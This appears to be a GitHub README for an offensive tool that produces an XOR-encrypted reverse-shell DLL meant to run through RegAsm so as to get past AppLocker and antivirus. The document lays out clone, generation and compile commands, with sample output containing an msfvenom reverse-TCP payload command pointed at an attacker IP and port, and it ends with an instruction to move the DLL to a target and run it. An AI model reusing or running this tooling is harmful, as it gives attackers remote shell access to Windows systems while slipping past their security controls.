

# RegiRockDll
Custom RegAsm user level layered encrypted applocker bypass/AV bypass reverse shell

## 1. Install
```sh
git clone https://github.com/ZumiYumi/RegiRockDll
```
## 2. Run Loader and Compile
```sh
python regirock.py --lhost 10.10.15.170 --lport 443

# EXAMPLE OUTPUT
# [*] Generating shellcode: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.170 LPORT=443 -f raw -o /tmp/tmpqxysvb5g.bin
# [+] Shellcode size: 460 bytes
# [*] XOR key: 52aeb1ddb5605ecc7c062103e1dc3f1c0f842f1424c4915557f6cf6b1243a566
# [+] Encrypted shellcode saved to encrypted_sc.bin
# [+] C# source written to RegAsmBypass.cs

# [*] To compile manually:
#    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library /platform:anycpu /optimize+ /out:regirock.dll RegAsmBypass.cs
```
Compile on dev machine, transfer to target and run.

## Demo


